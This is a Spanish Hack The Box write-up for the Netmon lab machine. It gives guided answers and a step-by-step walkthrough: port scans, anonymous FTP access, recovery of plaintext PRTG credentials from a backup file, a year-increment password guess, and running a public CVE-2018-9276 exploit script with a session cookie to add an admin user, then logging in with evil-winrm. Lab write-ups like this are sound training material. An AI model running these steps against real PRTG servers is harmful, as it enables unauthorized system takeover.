 ```yaml
---
title: Writeup netmon - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - netmon
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina netmon en Hack The Box.
keywords:
  - writeup netmon
  - hack the box netmon
  - resolución máquina netmon
  - netmon hack the box
  - htb netmon
---
```

------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/Facil/Windows/Netmon)
- 📺 **Resolución en vivo (completa)**: [Link](https://www.youtube.com/watch?v=IcYa_yilycs)
- 🧠 **Explicación resumida**: [Link](https://www.youtube.com/watch?v=SKknoNohRa8)

------

#easy #windows #ping #nmap #ftp #CVE-2018-9276 #evil-winrm 

----
# Guided Mode

1)¿Cuál es el nombre de la aplicación que se ejecuta en el puerto 80? Dadas las tres palabras del logotipo.
	PRTG Network Monitor

2)¿Qué servicio se ejecuta en el puerto TCP 21?
	ftp

*La pregunta anterior es la flag de user.txt*
4)¿Cuál es la ruta completa de la carpeta donde PRTG Network Monitor guarda sus archivos de configuración por defecto?
	`C:\ProgramData\Paessler\PRTG Network Monitor`

5)¿Cuál es el nombre del archivo de configuración de copia de seguridad?
	PRTG Configuration.old.bak

6)¿Cuál era la contraseña del usuario prtgadmin según ese archivo?
	PrTg@dmin2018

7)¿Cuál es ahora la contraseña del usuario prtgadmin en el sitio web?
	PrTg@dmin2019

8)¿Qué versión de PRTG está instalada?
	18.1.37.13946

9)¿Con qué usuario se ejecuta este software por defecto? No incluya nada antes de un \
	system
	tasklist /v | findstr PRTG                        [[findstr]] [[tasklist]]
	![[Netmon17.png]]

--------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.10.10.152
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.152 -oG allPorts
extractPorts allPorts
nmap -sCV -p21,80,135,139,445,5985,47001,49664,49665,49666,49667,49668,49669 10.10.10.152 -oN target
```

![[Netmon1.png]]
![[Netmon2.png]]
![[Netmon3.png]]
![[Netmon4.png]]
![[Netmon5.png]]
*TTL:* Maquina windows
*Puertos Relevantes:*
	`21` [[ftp]]
	`80` HTTP
	`445` [[smb]]
	`5985` [[evil-winrm]]
*Datos importantes*
En el servicio de [[ftp]] nos podemos conectar como el usuario anonymous. Y en [[smb]] con el usuario guest

----
# [[Whatweb-wappalyzer]]

```shell
whatweb http://10.10.10.152
```

![[Netmon6.png]]
No dice que esta corriendo un PRTG-Network-Monitor[18.1.37]

-------
# Intrusion por [[ftp]] user anonymnous

```shell
ftp 10.10.10.152 -p 21
```

![[Netmon7.png]]
![[Netmon8.png]]
Y sacamos la primera flag en el directorio */users/public/desktop/user.txt*


![[Netmon21.png]]

Buscamos por internet, donde se guardan los backups de *PRTG Network Monitor* . La carpeta es `/ProgramData/paessler/PRTG Network Monitor*`
Y ahora vamos al directorio por defecto donde se guardan los backups

![[Netmon12.png]]
Vemos al archivo de backup y lo descargamos `get "PRTG Configuration.old.bak"`

Lo abrimos en nuestra maquina, tiene un contenido muy extenso, pero la informacion relevante es esta en las lineas 141 y 142. Nos otorga las credenciales *prtgadmin:PrTg@dmin2018*

![[Netmon13.png]]

------

# [[CVE-2018-9276]]

Buscamos vulnerabilidades con [[searchsploit]] con el comando ``searchsploit prtg``
![[Netmon19.png]]
Descargamos la siguiente ``searchsploit  -m windows/webapps/46527.sh``
Le damos permiso de ejecucion con `chmod +x 46527.sh` y luego lo ejecutamos

La cookie de sesion la ponemos con el parametro *-c* y la sacamos de la pagina donde ya estamos logeado con las credenciales que sacamos previamente en `http://10.10.10.152/welcome.htm`, pero cambiando la contraseña a *PrTg@dmin2019*
![[Netmon20.png]]
```
./46527.sh -u http://10.10.10.152 -c "OCTOPUS1813713946=e0FDMjQ3RTg0LTc0MzEtNDUyNy1BNzU2LTI0MTZEM0ExM0YwMX0%3D"

```
![[Netmon15.png]]
Este exploit lo que hace es crear un nuevo usuario en el windows, con permisos de administrador, y las credenciales van a ser pentest:P3nT3st!

-----------
## Conexion a la maquina con [[evil-winrm]]
Nos conectamos con esta herramienta por que habiamos visto en el escaneo de nmap que estaba activo el servicio por el puerto 47001
Y ya podemos catear la flag
```
evil-winrm -i 10.10.10.152 -u pentest -p 'P3nT3st!'
```

![[Netmon16.png]]

----------
# Notas
Si una contraseña tiene un año antiguo, probar cambiar la contraseña al año actual, por ejemplo. Si la contraseña dice admin2018, y estamos en el 2019, probar admin2019


---------
# Creditos
[Proyecto github A1vinSmith](https://github.com/A1vinSmith/CVE-2018-9276) Me guio un poco en la parte del CVE